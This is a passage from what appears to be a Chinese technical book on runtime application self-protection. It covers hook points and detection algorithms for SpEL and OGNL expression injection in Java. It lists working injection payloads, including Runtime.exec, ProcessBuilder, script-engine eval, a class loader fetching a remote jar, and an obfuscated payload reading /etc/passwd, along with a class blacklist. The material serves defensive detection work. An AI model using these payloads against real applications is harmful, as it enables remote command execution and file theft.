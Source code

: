## 10.4 Hook点与检测算法

### 10.4.1 Hook点的选择

+ SPEL表达式注入

选择类org.springframework.expression.common.TemplateAwareExpressionParser
的`parseExpression`方法。
该方法的源码如下，通过前面一节的分析，该方法能够获取需要执行的原始表达式。
![图10-23 Node接口的uml](../../.vuepress/public/images/book/expression/img/Xnip2024-04-24_22-42-34.jpg)

从源码分析可以知道SPEL表达式的执行分为2步：第一步是查找类的Class对象，即调用
org.springframework.expression.spel.support.StandardTypeLocator的findType方法，

![图10-23 Node接口的uml](../../.vuepress/public/images/book/expression/img/Xnip2024-04-25_08-27-26.jpg)

第二步是反射调用方法，表达式中方法的执行最终都在org.springframework.expression.spel.support.ReflectiveMethodExecutor类的execute方法完成，
其源码如下：

![图10-23 Node接口的uml](../../.vuepress/public/images/book/expression/img/Xnip2024-04-25_08-31-24.jpg)


对于OGNL表达式注入，选择类ognl.OgnlParser的`topLevelExpression`方法，该方法的源码如下：


![截屏2024-04-05 下午6.03.16.png](img_9.png)

### 10.4.2 表达式注入与检测算法

由于OGNL与SPEL表达式除了Hook方法不一样，检测算法几乎一样，这里以SpEL表达式的检测算法为例子说明。

### 10.4.2.1 正常与恶意表达式举例

先来看下正常的业务使用的表达式：
```java

```

常见的具备攻击能力的表达式写法如下：
```java
// 使用java.lang.ProcessBuilder执行命令
new java.lang.ProcessBuilder(new String[]{"open","/System/Applications/Calculator.app"}).start()
// 使用ProcessBuilder执行命令
new ProcessBuilder(new String[]{"open","/System/Applications/Calculator.app"}).start()        
// 使用java.lang.Runtime执行命令
T(java.lang.Runtime).getRuntime().exec("open /System/Applications/Calculator.app")
// 使用Runtime执行命令
T(Runtime).getRuntime().exec(new String[]{"open","/System/Applications/Calculator.app"})
// nashorn 引擎
new javax.script.ScriptEngineManager().getEngineByName("nashorn").eval("s=[2];s[0]='open';s[1]='/System/Applications/Calculator.app';java.lang.Runtime.getRuntime().exec(s);")
// javascript 引擎
new javax.script.ScriptEngineManager().getEngineByName("javascript").eval("s=[2];s[0]='open';s[1]='/System/Applications/Calculator.app';java.lang.Runtime.getRuntime().exec(s);")
// 类加载
new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL("http://127.0.0.1:8999/Exp.jar")}).loadClass("Exp").getConstructors()[0].newInstance("127.0.0.1:2333")        
// 反射 java.lang.Runtime
T(ClassLoader).getSystemClassLoader().loadClass("java.lang.Runtime").getRuntime().exec("open /System/Applications/Calculator.app")
// 反射 java.lang.ProcessBuilder
T(ClassLoader).getSystemClassLoader().loadClass("java.lang.ProcessBuilder").getConstructors()[1].newInstance(new String[]{"open","/System/Applications/Calculator.app"}).start()
```

### 10.4.2.2 类与方法黑名单

检测表达式中是否存在指定的类，这些类能够执行命令、脚本或者读取文件等，常见的黑名单如下：
```java
java.lang.Runtime
java.lang.ProcessBuilder
java.lang.UNIXProcess
java.lang.ProcessImpl
java.lang.Classloader
java.lang.Class
java.lang.Thread
java.lang.ThreadGroup
java.lang.System
java.net.URL
java.net.URLClassLoader
javax.naming.InitialContext
javax.script.ScriptEngineManager
org.springframework.cglib.core.ReflectUtils
// 。。。
```


### 10.4.2.3 表达式最大长度限制

上面列的攻击方式还有其他的变种，如果仅限上面的黑名单类，很容易被绕过。
某个命令执行回显的Poc如下，显然其长度超过了正常表达式的长度。
一般应用的表达式不会太长，因此可以对表达式的长度做一个限制，例如OpenRasp中采用了这个算法。
如SPEL表达式字符串的长度一般在30～200，超过了最大的长度可以记录日志，方便离线分析。
```java
T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character)
        .toString(99)
        .concat(T(java.lang.Character).toString(97))
        .concat(T(java.lang.Character).toString(116))
        .concat(T(java.lang.Character).toString(32))
        .concat(T(java.lang.Character).toString(47))
        .concat(T(java.lang.Character).toString(101))
        .concat(T(java.lang.Character).toString(116))
        .concat(T(java.lang.Character).toString(99))
        .concat(T(java.lang.Character).toString(47))
        .concat(T(java.lang.Character).toString(112))
        .concat(T(java.lang.Character).toString(97))
        .concat(T(java.lang.Character).toString(115))
        .concat(T(java.lang.Character).toString(115))
        .concat(T(java.lang.Character).toString(119))
        .concat(T(java.lang.Character).toString(100)))
        .getInputStream())
```
这种方式容易误报，特殊的业务场景会用到较长的表达式，而且表达式的长度需要收集业务特征来确定，运营成本较高。

参考：https://xz.aliyun.com/t/9245?time__1311=n4%2BxuDgD9DyDRGCDCD0DBMb7evwoa4ECDfrD&alichlgref=https%3A%2F%2Fbaidu.com%2F